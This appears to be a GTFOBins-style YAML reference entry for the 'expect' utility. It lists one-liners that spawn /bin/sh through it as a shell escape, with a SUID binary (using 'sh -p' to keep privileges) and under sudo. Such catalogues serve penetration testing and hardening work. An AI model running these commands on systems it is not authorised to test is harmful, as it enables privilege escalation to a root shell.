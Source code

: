 ```yaml
---
functions:
  shell:
    - code: expect -c 'spawn /bin/sh;interact'
  suid:
    - code: ./expect -c 'spawn /bin/sh -p;interact'
  sudo:
    - code: sudo expect -c 'spawn /bin/sh;interact'
---
```

